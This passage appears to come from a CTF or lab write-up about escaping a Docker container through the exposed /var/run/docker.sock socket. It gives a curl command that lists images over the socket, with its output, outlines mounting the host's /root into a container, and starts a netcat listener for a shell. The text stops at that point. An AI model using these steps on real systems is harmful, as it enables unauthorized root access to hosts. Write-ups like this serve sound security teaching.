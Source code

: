 I got this hint from running `history` command in the docker shell. A command was run in the container which communicated with `/var/run/docker.sock` file.

#### Understanding /var/run/docker.sock <a name="understanding-sock">

/var/run/docker.sock is a unix socket file that enables us to communicate with the Docker daemon and exchange data between the container and the host machine from which docker daemon is running.

All unix socket files allow us to communicate with a communications endpoint (in this case, it's docker) and allow exchange of  data.

Unix socket files works similar to how APIs work.


---

Now as we can see that we can communicate with docker daemon using docker.sock socket file, we can enumerate more stuff.

After trying tons of different commands, usual docker.sock things I've narrowed it down to a couple of commands which can help us get access to the host machine as root.

- Enumerating the available docker images:

```bash
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```
<br><br>
This gives a JSON output with the data of available docker images. Output:

```
HTTP/1.1 200 OK
Api-Version: 1.40
Content-Type: application/json
Docker-Experimental: false
Ostype: linux
Server: Docker/19.03.8 (linux)
Date: Tue, 19 Jan 2021 15:03:21 GMT
Content-Length: 516

[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```


We can see that there is an image called `sandbox`, we can spin it up and mount the `/root` directory of host machine inside the container of `sandbox` image.

Start a netcat listener to so that we get a shell of sandbox container...

```bash
nc -lvnp 9051
```
